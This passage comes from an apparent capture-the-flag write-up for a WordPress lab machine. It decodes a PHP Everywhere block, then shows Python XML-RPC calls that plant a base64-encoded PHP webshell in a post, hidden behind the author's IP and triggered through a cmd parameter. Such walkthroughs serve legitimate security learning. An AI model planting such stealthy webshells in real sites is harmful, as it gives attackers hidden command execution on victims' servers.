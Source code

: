 This part is interesting:
~~~
    <!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->
    
~~~
Decoding that in [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)URL_Decode()&input=SlROREpUTkdjR2h3SlRJd0pUSXdaV05vYnlobWFXeGxYMmRsZEY5amIyNTBaVzUwY3lnbkpUSkdkbUZ5SlRKR2QzZDNKVEpHYUhSdGJDVXlSbTkxZEhCMWRDNXNiMmNuS1NrbE0wSWxNakFsTTBZbE0wVT0) (both base64 and url) gives a simple PHP block:

 ![image](https://0xdf.gitlab.io/img/image-20220201081617286.png)

It seems it is running this code to generate the table on the site by reading it from this log file.

[PHP Everywhere](https://wordpress.org/plugins/php-everywhere/) is a WordPress plugin that allows for the running of PHP within WordPress posts. That seems to be what I’m dealing with.

### Write Webshell

Because I have access as the admin user, I can do basically anything over this XML-RPC. But with an eye towards being somewhat stealthy (this is a shared instance, and if I were competing in UHC I wouldn’t want to give away my path to other competitors), I’ll modify the post to contain a webshell that only shows up from my IP:

 ![image](https://0xdf.gitlab.io/img/image-20220201083004841.png)

I’ll get the `Post` instance in Python and modify the content:
~~~
>>> mod_post = plist[0]
>>> mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUwQSUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjAlMEElMjAlMjBpZiUyMCgkX1NFUlZFUiU1QidSRU1PVEVfQUREUiclNUQlMjA9PSUyMCcxMC4xMC4xNC42JyklMjAlN0IlMEElMjAlMjAlMjAlMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQSUyMCUyMCU3RCUyMCUwQT8lM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
>>> client.call(posts.EditPost(mod_post.id, mod_post))
~~~

The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.
 

If I refresh that post, it looks the same. But if I add `?cmd=id` to the end:

 ![image](https://0xdf.gitlab.io/img/image-20220201083215460.png)

### Script
